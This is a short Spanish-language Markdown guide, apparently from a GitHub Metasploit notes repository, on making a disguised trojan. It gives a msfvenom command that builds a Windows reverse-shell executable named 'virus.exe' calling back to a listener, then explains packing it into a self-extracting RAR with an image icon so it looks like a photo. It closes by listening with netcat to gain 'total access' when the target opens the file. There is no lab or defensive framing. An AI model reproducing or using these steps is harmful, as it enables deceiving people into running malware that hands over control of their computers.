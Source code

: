 # Creamos el payload (virus) en linux preferentemente
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.10 LPORT=443 -f exe -o virus.exe
```

--------------------------------------

# Nos lo pasamos a windows para seguir trabajando ahi y lo guardamos en una carpeta junto con una imagen

---------------------------------------------

# Con esa imagen que queramos la transformamos a formato .ico 
# Hay paginas gratis en internet para hacer eso aca dejo una sino busca otra
 [Convertidor Imagen](https://imagen.online-convert.com/es/convertir-a-ico)

---------------------------

# Convertimos a rar seleccionando juntos el virus y la foto y (marcamos las siguientes casillas)

![Captura de pantalla 2023-07-04 163709](https://github.com/sav404/Metasploit-notes/assets/169759579/82d3c07a-0f98-480e-8837-00edeced4854)

-------------------------------------

# En la pestaña texto e iconos y examinamos en cargar icono desde fichero y elegimos la foto en formato .ico

![config](https://github.com/sav404/Metasploit-notes/assets/169759579/45910970-34fa-414c-a45a-0159ae673754)



# Se nos va a crear un archivo como este

![Captura de pantalla 2023-07-04 165159](https://github.com/sav404/Metasploit-notes/assets/169759579/0066de22-276e-469b-ba12-a32289eaa0a1)


# Nos ponemos en escucha con netcat en el puerto para recibir la señal en el momento que el objetivo abra la foto y obtendremos acceso total a su maquina. 

----
